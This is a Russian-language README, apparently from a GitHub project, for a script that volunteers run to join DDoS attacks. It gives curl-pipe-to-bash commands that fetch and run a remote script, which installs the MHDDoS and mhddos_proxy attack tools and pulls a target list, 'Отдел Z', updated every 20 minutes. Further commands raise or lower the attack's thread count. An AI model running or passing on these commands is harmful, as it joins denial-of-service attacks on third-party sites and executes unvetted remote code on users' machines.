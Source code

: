 # Запустить скрипт
```
curl -s https://raw.githubusercontent.com/dep-x/bash/master/bash.sh | bash
```
Автоматически устанавливает git python3, pip, mhddos_proxy, MHDDoS, расширенный список proxy и все зависимости.

Работает с базой сайтов Отдел Z.

База целей обновляется каждые 20 минут.

Во время запуска всегда проверяет и загружает обновления mhddos_proxy и MHDDoS.

Рекомендуется использовать на Ubuntu 20.04. Но должно работать на всех Ubuntu и Debian производных, а также в WSL2.

Для остановки скрипта несколько раз нажмите CTRL + C, или закройте окно с терминалом.

❕ Изменение интенсивности
Если скрипт очень замедляет ПК, или наоборот Вы имеете неиспользованные ресурсы, можно снизить, или наоборот повысить интенсивность работы скрипта. Для этого надо управлять параметром threads. По умолчанию threads = 1000.

Чтобы снизить нагрузку на систему, попробуйте использовать threads = 500
```
curl -s https://raw.githubusercontent.com/dep-x/bash/master/bash.sh | bash -s -- 500
```
Чтобы загрузить систему больше, попробуйте использовать threads = 2000
```
curl -s https://raw.githubusercontent.com/dep-x/bash/master/bash.sh | bash -s -- 2000
```
